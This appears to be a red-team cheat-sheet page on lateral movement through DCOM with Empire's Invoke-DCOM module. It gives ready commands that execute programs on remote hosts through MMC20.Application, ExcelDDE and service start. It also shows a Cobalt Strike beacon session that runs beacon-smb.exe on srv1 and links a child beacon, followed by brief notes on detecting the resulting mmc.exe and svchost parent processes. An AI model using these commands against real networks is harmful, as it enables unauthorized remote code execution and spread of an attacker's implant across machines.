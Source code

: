# Invoke-DCOM

## [[DCOM]]
```
Import-Module .\Invoke-DCOM.ps1
Invoke-DCOM -ComputerName '192.168.2.100' -Method MMC20.Application -Command "calc.exe"
Invoke-DCOM -ComputerName '192.168.2.100' -Method ExcelDDE -Command "calc.exe"
Invoke-DCOM -ComputerName '192.168.2.100' -Method ServiceStart "MyService"
```

To interact over Distributed Component Object Model (DCOM), we must use an external tool such as [[Invoke-DCOM]].
``````beacon
beacon> powershell-import C:\Tools\Invoke-DCOM.ps1
beacon> powershell Invoke-DCOM -ComputerName srv1 -Method MMC20.Application -Command C:\Windows\beacon-smb.exe
Completed

beacon> link srv1
[+] established link to child beacon: 10.10.1.20
``````

DCOM is more complicated to detect, since each "Method" works in a different way. In the particular case of `MMC20.Application`, the spawned process will be a child of `mmc.exe`.

``````
ProcessId: 952
Image: C:\Windows\beacon-smb.exe
ParentImage: C:\Windows\System32\mmc.exe
``````  
Processes started via DCOM may also be seen where the parent is `svchost.exe` (started with the command line `-k DcomLaunch`).

```meta
requirements: 
results: 
opsec: 
oss: #win
source: https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1
description: Lateral Move via DCOM
```